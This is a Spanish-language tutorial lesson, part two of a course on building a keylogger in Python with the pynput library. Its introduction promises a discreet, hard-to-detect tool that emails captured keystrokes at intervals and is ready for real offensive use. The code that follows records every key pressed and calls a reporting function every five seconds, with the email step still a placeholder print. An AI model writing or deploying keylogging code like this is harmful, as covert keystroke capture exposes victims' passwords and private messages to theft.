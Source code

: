 
----
- TAG: #Desarrollo #Keylogger #Parte2 
------
En esta clase, finalizaremos nuestra herramienta de keylogger desarrollada con la biblioteca **pynput** de Python. Esta sesión se centrará en perfeccionar y completar las funcionalidades del keylogger, asegurándonos de que sea eficiente, discreto y totalmente operativo.

El aspecto principal que abordaremos será la optimización del proceso de captura de pulsaciones de teclas y el mecanismo de envío automático de estas por correo electrónico. Refinaremos la programación para que el keylogger funcione de manera fluida y eficaz, minimizando su detectabilidad y maximizando la calidad y relevancia de los datos capturados. Además, nos aseguraremos de que el sistema de envío de correos electrónicos sea seguro y confiable, para que las pulsaciones registradas lleguen periódicamente a la dirección de correo especificada sin problemas.

También cubriremos aspectos avanzados, como la configuración de intervalos de tiempo para el envío de correos, la gestión de errores y la optimización del rendimiento del keylogger para garantizar que funcione de manera efectiva en diferentes escenarios. Al final de esta clase, tendrás una herramienta de keylogging robusta y práctica, lista para ser desplegada en situaciones reales de ciberseguridad ofensiva, con un entendimiento claro de cómo operarla y adaptarla a tus necesidades específicas.

-----

Seguimos con la configuración de nuestro script para poder configurarlo y enviarnos la información por correo :

```python
#!/usr/bin/python3

import pynput.keyboard
import threading

log = ""  # Variable global para almacenar las pulsaciones

def pressed_key(key):
    global log

    try:
        log += str(key.char)  # Almacenar caracteres comunes

    except AttributeError:
        # Manejo de teclas especiales
        special_keys = {
            key.space: " ", 
            key.backspace: " [Backspace] ", 
            key.enter: " [Enter] ", 
            key.shift: " [Shift] ", 
            key.ctrl: " [Ctrl] ", 
            key.alt: " [Alt] "
        }
        log += special_keys.get(key, f" [{str(key)}] ")

    print(log)  # Visualizar las pulsaciones almacenadas

def report():
    global log
    # Aquí es donde enviaríamos el contenido por correo
    print(f"Enviando log: {log}")
    
    log = ""  # Limpiamos el log para almacenar nuevas pulsaciones

    # Ejecutamos la función report cada 5 segundos
    timer = threading.Timer(5, report)
    timer.start()

# Configuración del listener de teclas
keyboard_listener = pynput.keyboard.Listener(on_press=pressed_key)

with keyboard_listener:
    report()  # Iniciar la función de envío en paralelo
    keyboard_listener.join()
```


